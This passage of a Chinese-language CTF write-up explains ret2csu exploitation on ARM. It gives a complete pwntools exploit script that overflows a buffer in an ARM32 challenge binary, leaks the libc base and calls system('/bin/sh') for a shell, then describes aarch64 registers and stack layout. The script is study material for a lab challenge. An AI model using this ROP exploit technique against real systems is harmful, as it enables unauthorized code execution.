其实就是利用 ret2csu 的打法泄露 libc 基地址，将 system，binsh 利用 read 写入之后再调用从而 getshell

exp:

```plain
from pwn import *
p = process(["qemu-arm","-g", "1212","-L", "/usr/arm-linux-gnueabi/", "./chall"])
p = process(['qemu-arm','-L','/usr/arm-linux-gnueabi/','./chall'])
#p = remote('47.108.29.107',10244)
context.log_level='debug'
context.arch='arm'

elf = ELF('./chall')
libc = ELF('./libc-2.27.so')
#context.terminal = ['gnome-terminal','-x','sh','-c']

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))

sla('msg> ','s1mpl3Dec0d4r')
r4 = 0x00010cb0
r3 = 0x00010464
movcall = 0x00010ca0
puts_got = elf.got['puts']
puts_plt = elf.plt['puts']
leak('puts',puts_plt)
ret_addr=0x0010B60

pl = b'a'*0x2c+p32(r4)+p32(0)+p32(0)+p32(0)+p32(puts_got)+p32(0)+p32(0)+p32(0)+p32(r3)+p32(puts_plt)+p32(movcall)+p32(0)+p32(0)+p32(0)+p32(0)+p32(0)+p32(0)+p32(0)+p32(ret_addr)
pause()

p.sendlineafter('comment> ',pl)

libcbase = uu32(r(4)) - libc.sym['puts']
leak('libcbase',libcbase)

system = libcbase + libc.sym['system']
binsh = libcbase + next(libc.search(b"/bin/sh\00"))

sla('msg> ','s1mpl3Dec0d4r')

pl = b'a'*44+p32(r4)+p32(0)+p32(0)+p32(0)+p32(binsh)+p32(0)+p32(0)+p32(0)+p32(r3)+p32(system)+p32(movcall)

p.sendlineafter('comment> ',pl)

p.interactive()
```

## aarch64 架构下的 ret2csu

这里我主要是写一下与 arm32 位不同的地方

### 寄存器

[](https://xzfile.aliyuncs.com/media/upload/picture/20230723200534-3aaa3634-2951-1.png)

其实看一下寄存器就知道我们可以通过控制 x29/fp，x30/LR 这两个寄存器从而进行 ret2csu 打法

### 栈结构

1.  **incoming stack arguments:**  
    即传入栈参数区域，内部元素分配方向：低地址 => 高地址。
    
    严格来讲这段区域是 caller 分配的，并不属于 callee 栈帧的一部分，当 caller 调用 callee 时，callee 通过 incoming 区域接收 caller 的参数。
    
    对于 caller 来说这段区域称为 outgoing stack argument(传出栈参数区域), 一个函数的 incoming 区域首地址等于其父函数的 outgoing 区域的首地址。
    
2.  **callee-allocated save area for register varargs:**  
    即匿名寄存器参数区域，内部元素分配方向：低地址 => 高地址。
    
    对于可变参函数，此区域用来保存函数中可能用到的所有匿名寄存器参数，va\_xxx 系列函数的参数解析依赖于此区域。
    
    从此区域开始 (以及向低地址方向的内存) 均为 callee 分配，此区域按照高地址=>低地址实际上分为 GPRs/FPRs 两个子区域; 每个区域内部元素分配方向均是低地址=>高地址;
    
3.  **local variables:**  
    即局部变量区域，内部元素分配方向：高地址 => 低地址。
    
    函数中显示定义的变量，编译器内部生成的临时变量均存放在此区域中。
    
    需要注意的是，编译优化可能导致变量分配顺序与源码中定义顺序不同，在不考虑优化的情况下其内部元素分配方向默认是高地址=>低地址。
    
4.  **callee-saved registers:**  
    即 callee-saved 寄存器区，内部元素分配方向：低地址 => 高地址。
    
    在 AAPCS64 标准中\[3\]:
    

\[R19, R28\] 是 callee-saved registers, 这些寄存器在函数调用结束后要保持原始值，如果 callee 中修改了这些寄存器，则在返回前必须恢复其原始值。  
LR(R30), FP(R29) 并非 callee-saved 寄存器，但由于操作流程类似，后续放在 callee-saved 寄存器中一并讨论。

1.  **dynamic allocation:**  
    即动态栈分配区，内部元素分配方向：高地址 => 低地址。
    
    当函数中调用 alloca 时会在栈中 dynamic allocation 区域分配需内存，这部分区域在编译期间不存在，在运行期间大小可以随执行变化。
    
2.  **outgoing stack arguments:**  
    即栈参数传出区域，内部元素分配方向：低地址=> 高地址;
    
    当 caller 需要通过栈向子函数传递参数 (如大于 8 个 GPR 参数) 时，栈参数保存在 caller 的 outgoing 区域。
    
    一个函数 (作为 caller) 其 outgoing 区域的大小是固定的，取决于其调用的 callees 中使用了最多栈参数的那个函数。当函数中存在动态分配时，其 outging 区域的首地址是可能动态变化的，但总是等于当前硬件寄存器 sp 的值，caller 调用 callee 时也是通过此 sp 将其 outgoing 区域首地址传递给 callee(作为 callee 的 incoming 区域首地址)。
    

**函数调用栈结构：**

[](https://xzfile.aliyuncs.com/media/upload/picture/20230723200542-3f5f2176-2951-1.png)

# 参考

[(119 条消息) AArch64 函数栈的分配，指令生成与 GCC 实现 (上)\_aapcs64\_ashimida@的博客-CSDN 博客](https://blog.csdn.net/lidan113lidan/article/details/123961152)
